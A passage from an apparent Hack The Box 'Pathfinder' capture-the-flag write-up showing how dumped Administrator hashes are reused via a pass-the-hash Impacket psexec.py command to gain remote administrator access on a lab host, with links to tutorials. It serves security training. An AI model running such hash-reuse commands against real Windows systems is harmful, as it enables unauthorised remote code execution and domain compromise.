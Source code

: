 - We manage to dump all the users hash
- The most important hash is the `Administrator hash`
- <font color="yellow">Do we crack it?</font>
	- Actually... We can login as `Administrator` by using `password hashes`

- By using another `Impacket` script called `psexec.py`


### <u>Impacket [psexec.py]</u>
> PSEXEC like functionality example using RemComSvc, with the help of python script we can use this module for connecting host machine remotely

- Source
	- [IppSec - Performing a Pass The Hash with the administrator user using PSExec](https://youtube.com/watch?v=uLNpR3AnE-Y&t=2265)
	- [IppSec - Performing SecretsDump to perform a DCSync and extract 	hashes, then PSEXEC with Administrator to gain access](https://youtube.com/watch?v=H9FcE_FMZio&t=3750)
	- [Hacking Articles - Remote Code Execution Using Impacket](https://www.hackingarticles.in/remote-code-execution-using-impacket/)
	- [InfosecMatter - RCE on Windows from Linux Part 1: Impacket](https://www.infosecmatter.com/rce-on-windows-from-linux-part-1-impacket/)

- I will run this command

```bash
psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d5xxxxxxxxxxxxxxxxx
```

- the result

![1](/assets/images/htb/pathfinder/psexec_admin.png)

### <u>Admin flag</u>